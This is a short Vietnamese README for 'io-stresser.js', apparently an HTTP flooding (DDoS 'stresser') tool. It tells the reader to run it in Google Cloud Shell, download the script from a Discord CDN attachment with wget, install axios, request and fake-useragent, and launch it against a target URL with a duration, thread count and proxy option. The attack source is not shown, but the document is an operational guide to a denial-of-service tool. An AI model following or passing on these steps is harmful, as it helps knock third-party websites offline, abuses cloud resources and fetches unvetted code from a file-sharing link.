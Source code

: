 <p align="center">
IO-STRESSER.JS</p>


### Mỗi trường thực hiện
[Cloud Shell](https://shell.cloud.google.com/)

### Cài đặt
Tải xuống io-stresser
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
```
Cài đặt npm nếu cần
```
apt install npm -y
```
Cài đặt axios
```
npm install axios
```
Cài đặt request
```
npm install request
```
Cài đặt fake-useragent
```
npm install fake-useragent
```
Khởi động io-stresser.js
```
node io-stresser.js
```
### Cách sử dụng
```
node io-stresser.js <URL> 10000 5 proxy
```
